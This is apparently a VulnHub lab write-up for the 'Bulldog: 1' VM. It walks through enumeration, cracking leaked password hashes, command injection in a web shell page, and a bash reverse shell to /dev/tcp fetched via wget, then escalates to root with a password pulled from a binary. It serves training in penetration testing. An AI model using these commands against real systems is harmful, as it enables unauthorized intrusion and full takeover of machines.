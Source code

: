 # Bulldog: 1

## 1.Get VM IP:

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:3c:59:b7       PCS Systemtechnik GmbH
192.168.56.107  08:00:27:38:4c:8d       PCS Systemtechnik GmbH
```

The IP address is `192.168.56.107`, let's scan it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -oN nmap.out 192.168.56.107

Nmap scan report for 192.168.56.107
Host is up (0.00050s latency).

PORT     STATE SERVICE VERSION
23/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|   256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
|_  256 2f:ba:d5:e5:9f:a2:43:e5:3b:24:2c:10:c2:0a:da:66 (ED25519)
80/tcp   open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
|_http-server-header: WSGIServer/0.1 Python/2.7.12
8080/tcp open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
MAC Address: 08:00:27:38:4C:8D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

port `23` is used for ssh and we now visit the web application :

![mainpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c08d7dd9-9063-48ab-8cad-6b6738e1844f)

we try to fuzz the directories :

```bash
root@kali: gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.56.107

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://192.168.56.107/admin/]
/dev                  (Status: 301) [Size: 0] [--> http://192.168.56.107/dev/]
/notice               (Status: 301) [Size: 0] [--> http://192.168.56.107/notice/]
```

visiting the `/admin` page shows a django admin panel login, but we need username and password:

![admin](https://github.com/Git-K3rnel/VulnHub/assets/127470407/13a0ccf5-917f-4ec7-9a9b-0cbdcdde5fdb)

so we go to `/dev` : 

![dev](https://github.com/Git-K3rnel/VulnHub/assets/127470407/98c856d8-e169-4fc9-9b2c-2daf686fabde)

here we see afew users mentioned at the bottom of the page, but if we see the page source we find user passwords hashes too :

![hash](https://github.com/Git-K3rnel/VulnHub/assets/127470407/fee2a848-115a-40e9-b002-823b1782c436)

we try to crack these hashes and only 2 of them is cracked, the one for user `nick` and `sarah`.

use an online resource to crack the hashes :

```text
nick  | ddf45997a7e18a25ad5f5cf222da64814dd060d5 = bulldog
sarah | d8b8dd5e7f000b8dea26ef8428caf38c04466b3e = bulldoglover
```

there is also a link in `/dev` which redirects us to `/dev/shell` and here we must first be authenticated :

![shell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3f52cd3b-6c74-4d25-8158-f5da8909a0de)

since we found passwords of the users, try to login to `/admin` path with user nick or sarah :

![login](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f754b5c3-8af8-44dc-9f6d-9cf2e93f4ab1)

now we can go to `/dev/shell` and this page is shown :

![webshell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2b55ef5b-1d21-411d-9251-10c8e5001961)

here we can run afew commands, but if we use `&&` we can execute another command too, so there is a command injection vulnerability here :

![injection](https://github.com/Git-K3rnel/VulnHub/assets/127470407/6bf10839-4cad-4c49-9237-266ce302abba)

so we can get a reverse shell.

## 3.Gaining Shell

I just made a file with a reverse shell payload in it and called it `shell.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.102/4444 0>&1
```

then served a python http server and used `wget` to download and put the file in `/dev/shm` directory of the victim :

![wget](https://github.com/Git-K3rnel/VulnHub/assets/127470407/112e8ae4-5a2e-4a00-b748-d05714c81a02)

then start a listener on your machine and just execute it with another bash command :

![bash](https://github.com/Git-K3rnel/VulnHub/assets/127470407/4ce5f34f-db6a-491d-9c66-a4149345860f)

```bash
nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.107] 41242
bash: cannot set terminal process group (963): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /root/.bashrc: Permission denied
django@bulldog:/home/django/bulldog$ id

uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

django@bulldog:/home/django/bulldog$
```

## 4.Privilege Escalation

We navigate to `/home/bulldogadmin` and see the content :

```bash
django@bulldog:/home/bulldogadmin$ ls -la
ls -la
total 40
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 21  2017 .
drwxr-xr-x 4 root         root         4096 Aug 24  2017 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin  220 Aug 24  2017 .bash_logout
-rw-r--r-- 1 bulldogadmin bulldogadmin 3771 Aug 24  2017 .bashrc
drwx------ 2 bulldogadmin bulldogadmin 4096 Aug 24  2017 .cache
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21  2017 .hiddenadmindirectory
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Aug 25  2017 .nano
-rw-r--r-- 1 bulldogadmin bulldogadmin  655 Aug 24  2017 .profile
-rw-rw-r-- 1 bulldogadmin bulldogadmin   66 Aug 25  2017 .selected_editor
-rw-r--r-- 1 bulldogadmin bulldogadmin    0 Aug 24  2017 .sudo_as_admin_successful
-rw-rw-r-- 1 bulldogadmin bulldogadmin  217 Aug 24  2017 .wget-hsts
```

there is a hidden directory here called `.hiddenadmindirectory` and the content is :

```bash
customPermissionApp
note
```

read the note and try to execute the `customPermissionApp` but it is not possible, so let's check the strings of it :


![password](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8e8d5869-eac3-49f0-b114-0e3fd5b5b552)

put these lines together and remove the `H` from it and you will get :

```text
SUPERultimatePASSWORDyouCANTget
```

this password is used for user `django` (our current user), let's check out sudo permissions :

```bash
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ sudo -l
sudo -l
[sudo] password for django: SUPERultimatePASSWORDyouCANTget

Matching Defaults entries for django on bulldog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User django may run the following commands on bulldog:
    (ALL : ALL) ALL
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$
```

easily we can be root on the machine :

```bash
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ sudo /bin/bash

root@bulldog:/home/bulldogadmin/.hiddenadmindirectory# cd /root

root@bulldog:~# cat congrats.txt
cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!
```

this is how you can become root on this machine :)
